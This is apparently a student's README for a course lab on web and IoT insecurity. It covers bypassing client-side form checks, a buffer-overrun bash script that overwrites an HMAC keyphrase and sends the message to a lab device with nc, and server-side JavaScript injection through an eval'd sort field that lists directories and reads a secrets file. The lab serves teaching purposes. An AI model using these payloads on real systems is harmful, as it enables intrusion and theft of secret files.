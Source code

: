 # Assignment 3 - More Web and IoT Insecurity
## Part A. Bypassing client-side checks
Using Google Chrome developer tools:

1) Add `tikinmusta` to the drop-down menu and then select it.

2) Remove the `EventHandler` that checks the username length condition. Now you should be able to submit new username that is over 21 characters long such as `testingover20characterslong`.


## Part B. Buffer overrun
1) Save the message into a file `msg.in`.
    - ```<user>;<command>;<hex_hmac><lf> > /tmp/msg.in```
    - `<keyphrase>`: `??`, length `KEYLEN=20`
    - `<user>`: `452056`
    - `<command>`: `???`
        - Include the exploit to overwrite `<keyphrase>` using buffer overrun.
        - Expected input length is `MAXCMDLEN`.
        -
    - `<hex_hmac>`: HMAC in hexadecimal format using OpenSSL
        - `openssl dgst -sha256 -hmac <keyphrase> /tmp/string.in`
        - `/tmp/string.in` file contains: `ClientCmd|<user>|<command>`, where `ClientCmd` is a constant string. Expected to be of size `MAXHMACINPUTLEN`
2) Send the command into the IoT device
    - ```nc device1.vikaa.fi 33892 < /tmp/msg.in```

Make this overrun
```c
sprintf(hmac_input, "%s|%s|%s", CLIENTCMDTAG, user_rec, command_rec);
```
- `hmac_input` is allocated 40 characters
- `CLIENTCMDTAG` is 9 characters long
- `user_rec` is 6 characters long
- Two vertical bars `|` take 2 characters

```bash
# Keyphrase need to be 20 characters long.
KEYPHRASE=01234567890123456789
USERNAME=452056
# Length of the command needs to make the buffer to overrun.
# 22 characters + keyphrase
COMMAND=0123456789012345678901${KEYPHRASE}

echo "ClientCmd|${USERNAME}|${COMMAND}" > /tmp/string.in
HEX_HMAC = $(openssl dgst -sha256 -hmac ${KEYPHRASE} /tmp/string.in)

echo "${USERNAME};${COMMAND};${HEX_HMAC}" > /tmp/msg.in
nc device1.vikaa.fi 33892 < /tmp/msg.in
```

## Part C. Server-side poisoning
```js
// ...
// Plants that will be returned to the client
var retPlants = [];
bookshelf.knex.raw(sql_query).then(function(plants){
    plants.forEach(function(p){
        retPlants.push({
            ’name’:p.name,
            ’color’:p.color,
            ’planttype’:p.planttype,
            ’potsize’:p.potsize
        });
    });
    // Field name from drop - down selection
    var field = req.body.sort_field;
    // Sort the plants
    retPlants.sort(function(a,b){
        var av,bv;
        with (a) { av = eval(field); };
        with (b) { bv = eval(field); };
        return av >= bv ;
    });
    // ...
});
```

Inject javascript into the `sort by` field by adding options using developer tools.

1) List the contents of the current directory:

    ```js
    res.end(require('fs').readdirSync('.').toString())
    ```
    ```txt
    .gitignore,__init__.py,config,models,node_modules,package-lock.json,
    package.json,potplant.db,public,routes,secrets,server.js,utils,views
    ```

2) List the contents of the `secrets` directory:

    ```js
    res.end(require('fs').readdirSync('secrets').toString())
    ```
    ```txt
    secretmessage_3096.txt
    ```

3) View the actual content of the `secrets/secretmessage_3096.txt` file:

    ```js
    res.end(require('fs').readFileSync('secrets/secretmessage_3096.txt'))
    ```
    ```txt
    Instructions from boss: code ecc35a2dbf4a0e06 for agent 452056.
    ```

## References

https://ckarande.gitbooks.io/owasp-nodegoat-tutorial/content/tutorial/a1_-_server_side_js_injection.html
